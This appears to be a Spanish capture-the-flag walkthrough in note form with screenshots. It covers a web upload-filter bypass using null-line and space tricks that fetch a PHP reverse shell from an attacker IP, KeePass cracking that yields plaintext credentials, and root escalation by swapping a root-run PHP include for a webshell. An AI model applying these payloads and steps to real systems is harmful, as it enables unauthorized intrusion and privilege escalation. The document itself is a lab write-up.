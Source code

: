 Realizamos un escaneo de nmap
![[Pasted image 20240920113616.png]]

Al acceder al puerto 80 encontramos un portal de login
![[Pasted image 20240920113711.png]]

Realizamos fuzzing web para el descubrimiento de directorios y archivos
![[Pasted image 20240920114108.png]]

Encontramos una ruta de un directorio que parece que podemos subir archivos levantando un servidor
![[Pasted image 20240920114035.png]]

Si hacemos fuzzing en esta url de cloud encontramos otro directorio de images donde puede ser que almacene los archivos que enviemos
![[Pasted image 20240920122132.png]]

Ahora creamos un archivo y levantamos un servidor para ver si copiando la ruta nos hace una peticion
![[Pasted image 20240920122355.png]]

Pero vemos que no solicita nada
![[Pasted image 20240920122916.png]]

Ahora capturamos la peticion con burpsuite
![[Pasted image 20240920124703.png]]

Si ahora cambiamos el tipo de archivo y cambiamos a jpg al enviarlo podemos ver que ahora si que nos hace la peticion
![[Pasted image 20240920124917.png]]

Y vemos que nos ha realizado la peticion
![[Pasted image 20240920125244.png]]

Una vez comprobado esto, nuestro objetivo será que la web nos permita subir una webshell en php; y para ello tenemos esta url que nos indica cómo hacerlo:
https://book.hacktricks.xyz/pentesting-web/file-upload
![[Pasted image 20231029214856.png]]


Volvemos a realizar una caputa con burpsuite como si fueramos a subir el fichero y modificamos el final de la extensión `%0a.jpg`
```
http%3A%2F%2F10.9.0.219%3A4444%2Fphp-reverse-shell.php%0a.png
```
![[Pasted image 20240923084010.png]]

Si lo comprobamos vemos que se ha enviado correctamente
![[Pasted image 20240923084106.png]]

Otra forma de hacer el bypass es escribiendo un espacio entre nuestra shell y el .png de esta forma
```
http://10.9.0.219/shell.php .jpg
```

Dejamos de interceptar con burpsuite y al volver al navegador podremos ver como ha cambiado la pestaña, en la cual nos indica donde se ha guardado el fichero
![[Pasted image 20240923084239.png]]

Ahora abrimos otra pestaña y al ejecutar en el navegador el fichero nos generara la reverse shell
![[Pasted image 20240923100332.png]]


Ahora vamos a escalar privilegios de la maquina, para ello vamos a la ruta de `/opt` y encontramos un fichero `kdbx`
![[Pasted image 20240923103523.png]]

Nos lo descargamos
Maquina atacante
![[Pasted image 20240923104347.png]]

Maquina victima
![[Pasted image 20240923104403.png]]

Ahora lo crackeamos con john the ripper, al ser un fichero en formato `keepass` primero tendremos que generar el hash y luego crackearlo
```
741852963
```
![[Pasted image 20240923104645.png]]

Instalamos keepass si no lo tenemos instalado
![[Pasted image 20240923104958.png]]

Y al abrir el archivo y introducir la password obtenemos las credenciales del ususario `sysadmin`
```
sysadmin
Cl0udP4ss40p4city#8700
```
![[Pasted image 20240923105159.png]]

Probamos las credenciales y ya hemos accedido al usuario
![[Pasted image 20240923105329.png]]

Primera flag
![[Pasted image 20240923105358.png]]

Dentro de la carpeta del usuario encontramos un fichero .php el cual elimina las archivos que existan en la ruta de `cloud/images`
![[Pasted image 20240923110502.png]]

En la carpeta `lib`del usuario encontramos que es nuestra pero con permisos de root
![[Pasted image 20240923110905.png]]

Dentro de la carpeta encontramos muchos ficheros .php los cuales todos el usuario es root pero la carpeta es nuestra, dentro de el encontramos un fichero que llama la atencion por el tamaño que es diferente
![[Pasted image 20240923111141.png]]

Ahora eliminamos el fichero y lo reemplazamos por nuestra webshell
```
rm /home/sysadmin/scripts/lib/backup.inc.php
```
![[Pasted image 20240923112714.png]]

Creamos nuestra webshell de php y la copiamos con el mismo nombre
![[Pasted image 20240923112755.png]]
![[Pasted image 20240923112931.png]]

Ahora nos ponemos a la esucha con netcat y esperamos a que se ejecute el script y ya seremos root
![[Pasted image 20240923112634.png]]

Flag de root
![[Pasted image 20240923113049.png]]


Otra forma de ver el script que se ejecuta es revisandolo con `pspy64`
![[Pasted image 20240923113230.png]]
![[Pasted image 20240923113353.png]]






